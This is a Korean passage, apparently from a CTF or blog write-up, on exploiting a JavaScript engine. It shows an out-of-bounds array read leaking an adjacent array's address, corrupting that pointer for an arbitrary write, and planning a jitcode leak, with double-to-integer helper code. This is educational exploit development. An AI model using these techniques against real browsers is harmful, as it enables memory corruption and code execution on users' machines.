 OOB가 발생하는 Array의 다음에 다른 배열을 만들었다. 처음에 oob array를 통해 10개의 값을 출력해보니 9~10 번째에 두 번째 array의 데이터가 출력되었다.  위에서 작성했었던 결과 값을 다시 가져와보면 다음과 같다.

```bash
undefined
undefined
6.9063791040899e-310
6.9063790999006e-310
0
6.9063791034334e-310
4.243991582e-314
4.243991583e-314
3
4
```

또한 Array 객체 분석을 할 때 캡쳐했던 화면은 다음과 같다.

![6](https://user-images.githubusercontent.com/43925259/67089051-af26c500-f1e1-11e9-9f60-362432905151.PNG)

초록색 부분이 데이터고 빨간색 부분이 데이터의 주소라고 했었는데, 3, 4가 데이터라면 이 값이 나오기 전전전 값이 해당 데이터를 가리키는 **데이터의 주소**일 것이다. 즉 `6.9063791034334e-310` 이 값이 데이터의 주소일 것이고 이는 OOB Array의 인덱스에 `5`를 주면 접근할 수 있다. 이렇게 next Array addr을 쉽게 릭할 수 있다.



이 주소를 릭 하는 이유는 aaw를 트리거하기 위함이다. 이제 이 주소를 변경하고 두 번째 배열에 값을 수정함으로써 원하는 곳에 원하는 값을 쓸 수 있다. 하지만 **값을 넣을땐 double 형으로 넣어야 함에 주의**해야 한다. 그게 싫다면 Uin32Array를 생성해서 그 주소를 찾으면 되는데 개인적으로 이게 더 편한거 같다.



이제 jitcode 주소를 leak하면 된다. 해당 주소를 알아내기 위해 Math.atan을 이용해서 디버깅을 해보겠다. 테스트 코드는 다음과 같다.

```javascript
function dtoi(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer, 0, 8);

	f[0] = data;
	
	res = "";
	for (var i = 0; i < bytes.length; i++)
		res += ('0' + bytes[bytes.length - 1 - i].toString(16)).substr(-2);

	return parseInt(res, 16);
}

function itod(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer);

	var res = [];
	var hexed = ('0000000000000000' + data.toString(16)).substr(-16);
	for (var i = 0; i < 16; i+=2)
		res.push(parseInt(hexed.substr(i, 2), 16));
	
	bytes.set(res.reverse());
	return f[0];	
}

function hex(data)
{
	return '0x' + data.toString(16);
}
```